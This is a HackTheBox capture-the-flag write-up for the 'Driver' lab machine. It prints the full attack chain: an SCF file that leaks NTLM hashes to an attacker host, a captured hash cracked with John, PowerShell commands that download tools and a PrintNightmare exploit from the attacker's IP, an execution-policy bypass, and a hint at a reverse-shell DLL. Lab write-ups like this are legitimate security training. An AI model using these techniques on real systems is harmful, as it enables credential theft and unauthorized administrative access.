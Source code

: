 ```yaml
---
title: "HackTheBox - Driver"
date: 2024-05-29 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


# Driver Write-Up
Hi everyone, let's start to h4ck ! *(Written in 2023)*
## Description
The box is available [here](https://app.hackthebox.com/machines/387) if you want to try it before read this.

 - OS : Linux
 - Release date : 02/10/2021
 - Difficulty : easy
 - Points : 20
 - IP Adress : ````10.10.11.106````

All is good, so here we go !

## Foothold
First, we scan the IP with the famous tool [**Nmap**](https://nmap.org), using the command :

```markdown
nmap 10.10.11.106 -sC -sV -p-
```

We obtain the following output :
```markdown
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-25 21:37 CET
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 33.90% done; ETC: 21:38 (0:00:06 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```

There are 4 open ports : 80 (**HTTP**), 135 (**MSRPC**), 445 (**SMB**) and 5985 (**Evil-WM**)...

So now, we are going to look the website. We have a Pop-up which contain a authentification. We can try to use admin/admin...

![alt text](../assets/img/Driver/web_lock.png)

And, sometimes, it works :)

![alt text](../assets/img/Driver/website.png)

When we explore the website, we find this page with an upload form. Here, we can make a link with the *upload* and *SMB*, and we can exploit a *SCF File Attacks*.

This [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) is really useful to understand this attack. It is really simple to exploit :

 - Create a .scf file
 - Add this following lines :
 ```
[Shell]
Command=2
IconFile=\\{YOUR_IP}\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
   ```
 - Add '@' in front of the filename

We have the exploit file but we need to setup a listener with [**Responder**](https://github.com/SpiderLabs/Responder) (installed in Kali-Linux).

```markdown
sudo responder -wrf --lm -v -I tun0
```

Then, upload the file with the website and wait a little.

![alt text](../assets/img/Driver/hash_responder.png)

We receive a connection with a user and a hash.

```markdown
tony::DRIVER:2a7cdabfa3a86e6d:8145E5C2E03F2363A318FFE99BE766AC:0101000000000000216A32ACC32AD8014F1FE417A226E7A300000000020000000000000000000000
```

We create a file which contains the hash and we use [**John**](https://www.openwall.com/john/) to crack the password.

```markdown
john {HASH_FILE} --wordlist=path/to/rockyou.txt
```

We wait a moment, and **John** gives us the password : ````liltony````.

Now we can access to the machine with [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm). It a useful tool when you pentest Windows machines.


```markdown
evil-winrm -i 10.10.11.106 -u tony
```
Now, we are connected with user Tony. The user flag is located in ````C:\Users\Tony\Desktop\user.txt````.

## Privilege Esclation
The last part is to become the Administrator user. First, we can enum the box with [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), the **Linpeas** for Windows.

To import this, use the following command: 

```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{YOUR_IP}:8080/winPEASany_ofs.exe','C:\Users\tony\Downloads\winpeas.exe')"
```

And execute it :
```markdown
.\winpeas.exe
```

Once **WinPEAS** finish, we can see that the *spoolsv* process is working. So, we can check if it is vulnerable with the ***NightMare*** exploit.

![alt text](../assets/img/Driver/spoolsv.png)

We search on github a exploit of CVE-2021-1675 and we find this [one](https://github.com/mtthwstffrd/calebstewart-CVE-2021-1675). We upload the .ps1 payload on the machine :
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[YOUR_IP}:8080/CVE-2021-1675.ps1','C:\temp\bad.ps1')"
```

Then, we just have to execute the payload: 
```markdown
Import-Module .\bad.ps1
```

But we are restricted because we can't execute the payload. We try to bypass this by using ````powershell -ep bypass```` but **Evil-WinRM** doesn't like. We find a other command: 
```markdown
set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

Now, it is perfectly working ! 

The exploit add a new user in the local admin group. So, we gonna create a new local user but with admin privileges.
```markdown
Import-Module .\bad.ps1
Invoke-Nightmare -DriverName "Xerox" -NewUser "{RANDOM_USERNAME}" -NewPassword "{RANDOM_PASSWORD}" 
```
![alt text](../assets/img/Driver/exploited.png)

Finally, open a new session with the new user and you will be in the Administrator group.

![alt text](../assets/img/Driver/net_user.png)

Go in ````C:\Users\Administrator\Desktop\````, and made a ````type root.txt````

![alt text](../assets/img/Driver/root.jpg)

And BOOM, we have the root flag !

*Note: To have a shell as NT/Authority System, just create a reverse shell in .dll and use ````Invoke-Nightmare -DLL "C:\path\to\your\reverse_shell.dll"````.*

## Conclusion
The box was really interesting and we learned new attacks about the .scf files. I recommend this box, 4 stars because it was, for me, a little guessing for the user flag.

Thanks for reading ! :)
